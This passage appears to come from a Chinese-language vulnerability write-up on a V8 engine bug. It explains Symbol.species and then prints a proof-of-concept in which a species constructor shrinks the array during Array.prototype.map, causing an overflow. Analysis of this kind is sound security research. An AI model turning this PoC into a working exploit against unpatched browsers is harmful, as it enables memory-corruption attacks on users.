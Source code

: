 等同于：

```javascript
class MyArray extends Array {
    static get [Symbol.species] (){
        return this;
    }
}
```

设置Symbol.species属性后，a.map(x => x)生成的衍生对象b，就不是MyArray的实例，而直接就是Array的实例。例子如下：

```javascript
class MyArray extends Array {
  // 覆盖 species 到父级的 Array 构造函数上
  static get [Symbol.species]() { return Array; }
}
var a = new MyArray(1,2,3);
var mapped = a.map(x => x * x);

console.log(mapped instanceof MyArray); // false
console.log(mapped instanceof Array);   // true
```



## 漏洞分析

漏洞成因在于：调用Array.prototype.map 函数时会触发衍生操作，即触发Symbol.species 所声明的构造函数。而在构造函数中可以修改数组的大小，导致溢出。

PoC代码：

```javascript
// Copyright 2017 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.
// Flags: --verify-heap
class Array1 extends Array {
	constructor(len) {
	super(1);
	}
};
class MyArray extends Array {
	static get [Symbol.species]() {
		return Array1;
	}
}
a = new MyArray();
for (var i = 0; i < 100000; i++) {
	a.push(1);
}

a.map(function(x) { return 42; });
```

array.map 函数原型：
